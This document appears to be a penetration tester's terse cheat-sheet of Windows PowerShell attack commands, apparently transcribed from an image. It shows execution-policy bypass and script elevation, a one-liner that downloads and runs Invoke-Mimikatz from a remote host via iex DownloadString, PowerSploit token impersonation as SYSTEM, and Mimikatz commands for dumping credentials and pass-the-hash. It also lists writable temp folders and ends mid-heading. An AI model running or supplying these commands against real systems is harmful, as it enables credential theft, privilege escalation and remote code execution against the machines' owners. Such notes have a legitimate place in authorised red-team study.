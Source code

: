 - FTP
- SMB 


Powershell

	Bypass execution policy
		powershell -ep bypass <full path to ps1 file or .\script.ps1> - this will run the file

	$psversiontable
	
	Run commands
		& "[path] command" [arguments] [&]
		Treat path + command as a command instead of string, and run in bg

		$var = {script block}
		& $var
		powershell -ep bypass -command "& {. c:\programdata\Invoke-TokenManipulation.ps1; Invoke-TokenManipulation -enumerate }"
	
	Elevate a script
		start-process powershell '-noprofile -file script.ps1' -verb RunAs	
			However, using invoke-command to run as admin on remote computer will fail as the prompt for elevation runs in a non-interactive session on the remote machine.
	Run Script
		.\myscript.ps1
		& "c:\programdata tests\script.ps1"
	
	Register script to call function
		. c:\xxx\Invoke-Mimikatz.ps1
		Invoke-mimikatz 
		or
		
		Import-module .\Invoke-Mimikatz.ps1
		
		or
		powershell iex (New-Object System.Net.Webclient).DownloadString('http://10.200.2.28:8000/Invoke-Mimikatz.ps1');


Powersploit

    Invoke-TokenManipulation -Enumerate
	  Invoke-TokenManipulation -CreateProcess "cmd.exe" -username "nt authority\system" or "computername\user"
	  Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::pth "'
	  Invoke-Mimikatz -DumpCreds


Temp folders on Windows:

	- %userprofile%\AppData\Local\Temp
	userprofile = C:\users\todd
	- %systemdrive%\Windows\Temp (wont have permissions as normal user)
	c:\programdata
	c:\programdata\usoshared\logs


Hide file on Windows:
